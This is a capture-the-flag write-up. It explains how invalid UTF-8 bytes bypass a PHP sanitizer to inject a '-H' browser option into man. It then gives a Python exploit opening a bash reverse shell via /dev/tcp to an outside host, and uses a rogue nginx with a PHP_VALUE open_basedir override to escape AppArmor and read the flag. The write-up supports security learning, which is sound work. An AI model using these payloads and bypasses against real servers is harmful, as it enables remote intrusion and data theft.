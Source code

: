 This challenge is a PHP application that renders the man page for a given command as HTML. The command is taken from the query string and passed as an argument to `/usr/bin/man` via `shell_exec()`:
```php
$arg = $_GET['page'];
[...]
$manpage = shell_exec('/usr/bin/man --troff-device=html --encoding=UTF-8 ' . $arg);
```

This would be a straight-up RCE, if it wasn't for an ad-hoc query sanitizer slapped on top of this:

1. Quotes of all kinds are stripped right away: `$arg = mb_ereg_replace('["\']', '', $arg);`.
2. If there are non-word characters at the beggining of a token (`if (mb_ereg('(^|\\s+)\W+', $arg) [...] ) {`), they are also stripped: `$arg = mb_ereg_replace('(^|\\s+)\W+', '\\1', $arg);`. This prevents us from passing additional funny `-Options` or `--options` to `/usr/bin/man`.
3. Finally, `$arg = escapeshellcmd($arg)` escapes pretty much everything we could use in a shell command for malicious purposes.

At first glance, this seems surprisingly solid. But, unfortunately for the author of the sanitizer and fortunately for us, the challenge tries to use UTF-8:
```php
mb_regex_encoding('utf-8') or die('Invalid encoding');
mb_internal_encoding('utf-8') or die('Invalid encoding');
setlocale(LC_CTYPE, 'en_US.utf8');
```

In fact, strings in PHP are just old-school byte sequences. All `mb_internal_encoding()/mb_regex_encoding()` do is simply set the `encoding` parameters for `mb_*` functions, which will then handle the bytes accordingly. If the bytes we provide to these functions are not actually valid UTF-8, well, tough luck:
```php
<?php
    mb_regex_encoding('utf-8');
    mb_internal_encoding('utf-8');
    setlocale(LC_CTYPE, 'en_US.utf8');

    $valid_utf8 = "-Evil";
    // 0xCA is 0b11001010
    //   which means a continuation byte in the form of 10xxxxxx
    //   must immediately follow it => this is incorrect UTF-8
    $invalid_utf8 = "\xca" . $valid_utf8;

    // The original valid UTF-8 triggers the sanitizer,
    // so this prints "Uh-oh, busted.".
    if (mb_ereg("(^|\\s+)\W+", $valid_utf8)) {
        echo "Uh-oh, busted.", PHP_EOL;
    } else {
        echo "Go ahead.", PHP_EOL;
    }

    // However, regular expression functions silently fail
    // on invalid UTF-8, which means this prints "Go ahead."
    if (mb_ereg("(^|\\s+)\W+", $invalid_utf8)) {
        echo "Uh-oh, busted.", PHP_EOL;
    } else {
        echo "Go ahead.", PHP_EOL;
    }

    // After that, escapeshellcmd() simply drops the invalid character,
    // which is exactly what we want (i.e., this prints "bool(true)").
    var_dump($valid_utf8 === escapeshellcmd($invalid_utf8));
?>
```

Great, so this allows us to smuggle an additional option to `/usr/bin/man`. There are plenty to choose from, but the most obvious one is `-H`, which allows us to specify a web browser to view the man page. `escapeshellcmd()` still escapes everything, but that escaping only works for the shell that PHP runs to execute `/usr/bin/man`. The shell that `/usr/bin/man` itself spawns to invoke the browser will see unescaped characters. This [gets us](get_shell.py) a reverse shell:
```python
REV_SHELL = 'bash -i >& /dev/tcp/`getent hosts cursed.page | cut -d" " -f1`/31337 0>&1'
# Space is not escaped by escapeshellcmd(), so we have use $IFS here.
SAFE_REV_SHELL = f'echo {base64.b64encode(REV_SHELL.encode()).decode()} | base64 -d | bash'.replace(' ', '${IFS}')
CGI_READY_REV_SHELL = b'\xca-H' + SAFE_REV_SHELL.encode() + b'; id'

[...]

requests.get(URL, params={
	'page': CGI_READY_REV_SHELL,
})
```

At this point, if we knew the name of the flag file, we could just `cat` it. Unfortunately, we don't:
  1. We know the flag is stored in `/`, but its basename is 24 random characters, which is unguessable.
  1. We can't get the basename from a directory listing either, since `/** mrixwlk` AppArmor policy, which `/usr/bin/man` is confined to, basically allows us to list files in any directory *except* the root one.

php-fpm, though, is not confined to any AppArmor policy. Even better, our reverse shell is running as `www-data` and we can talk to PHP via a UNIX socket (`/run/php/php7.3-fpm.sock`).

The obvious idea is to trick PHP into revealing the contents of `/`. PHP (php-fpm) speaks [FastCGI](http://www.mit.edu/~yandros/doc/specs/fcgi-spec.html), which seems moderately annoying to implement.
In order to avoid that, we spin up another instance of `nginx` with a custom config pointed at `/tmp/evil`.

```
www-data@2e75d56e6d85:/tmp/evil$ cat nginx.conf
pid /tmp/evil/evil.pid;
events {}

error_log /tmp/evil/err.evil;

http {
    access_log /tmp/evil/acc.evil;
    server {
            listen 127.0.0.1:31337 default_server;
            root /tmp/evil;
            server_name _;
            location ~ \.php$ {
                    include /etc/nginx/fastcgi.conf;
                    fastcgi_param PHP_VALUE open_basedir=/;
                    fastcgi_pass unix:/run/php/php7.3-fpm.sock;
            }
    }
}
```

The `fastcgi_param PHP_VALUE open_basedir=/` bypass is crucial for this to work.
If we omit it, php-fpm refuses to run scripts from `/tmp/evil` because its `open_basedir=` is set to `/var/www/html` in `www.conf`.

When we run `nginx` with this config, it complains that the error log is missing (I didn't find a way to make this warning go away), but runs anyway:
```
www-data@2e75d56e6d85:/tmp/evil$ /usr/sbin/nginx -c /tmp/evil/nginx.conf
nginx: [alert] could not open error log file: open() "/var/log/nginx/error.log" failed (6: No such device or address)
www-data@2e75d56e6d85:/tmp/evil$ cat evil.pid
1045
```

Now all we need is a script that is going to be run by `php-fpm`:
```
www-data@2e75d56e6d85:/tmp/evil$ cat evil.php
<?php foreach (glob("/flag*") as $fn) echo "$fn\n"; ?>
```

And another one to orchestrate everything and finally get the flag:
```
www-data@2e75d56e6d85:/tmp/evil$ cat fetch_evil.php
<?php echo(file_get_contents("http://127.0.0.1:31337/evil.php")); ?>
www-data@2e75d56e6d85:/tmp/evil$ php -f fetch_evil.php
/flag_kLExDVGQxbiIfwStYMFhT4xF.txt
www-data@2e75d56e6d85:/tmp/evil$ cat /flag_kLExDVGQxbiIfwStYMFhT4xF.txt
hxp{maybe_this_will_finally_get_me_that_sweet_VC_money$$$}
```

